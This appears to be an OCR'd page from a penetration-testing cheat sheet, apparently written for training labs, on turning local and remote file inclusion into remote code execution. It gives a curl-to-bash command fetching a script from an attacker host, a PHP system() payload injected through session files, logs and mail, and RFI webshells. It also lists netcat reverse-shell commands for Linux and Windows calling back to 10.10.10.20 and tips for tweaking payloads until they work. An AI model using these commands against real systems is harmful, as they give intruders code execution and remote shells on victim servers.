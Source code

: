 **Addition**
1: Create a **bash/python(3)/etc. script** exp.sh on Kali, **curl
[http://10.10.10.20/exp.sh|](http://10.10.10.20/exp.sh|) bash** (On victim server)
2: Usf **msfvenom** to generate a payload, **execute it** on victim server
3: Create a **bash/python(3)/etc. script** on **victim server** , execute it

**LFI to RCE**
1: Include **session file**
a: Fill a POST form to make username= **<?php system("[command]");?>**
b: Note the session value, and then find php session file. Usually in
**/var/lib/phpx/sess_[SessionId]** , **/tmp/sess_[SessionId]**
c: Include the session file
2: **phpinfo.PHP**
a: If **file_uploads** is **on**
b: **PoC script: https://0xdf.gitlab.io/2020/04/22/htb-nineveh.html#shell-
as-www-data-via-phpinfophp
3: Log poison**
a: If log file is **accessible** , such as **/var/log/vsftpd.log** ,
**/var/log/apache2/access.log**
b: For **access.log** , insert payload to **user agent**. For **vsftpd.log** , give payload
in **username section**
c: **Include** the log file
**4: Send mail**
a: Send an email with a malicious payload
b: Include /var/mail/www-data

**RFI to RCE**
1: Include a **webshell** from Kali VM
2: If http is not permitted, use **SMB URL**
3: Execute commands or receive a reverse shell

**Linux**
1: Transfer nc to **/tmp**
2: **chmod +x /tmp/nc**
3: **/tmp/nc 10.10.10.20 4444 -e /bin/bash**

**Windows**
1: Transfer **nc.exe** to **C:/windows/tmp**
2: **C:/windows/tmp/nc 10.10.10.20 4444 -e cmd.exe**

Exploit and Foothold Page 64




# Adjust Payload

1: Pay attention to special characters: **' " ` / \: () {} []**.
2: **Add** or **delete one or more** special characters at the **beginning** or the **end** of
payload, according to the application.
###Reference: **Humble**
3: Switch payload between **one-line payload** or **function-encapsulated
payload** ###Reference: **Dibble**
4: If one exploit does not work, **switch to another exploit** if possible
###Reference: **Exfiltrated**
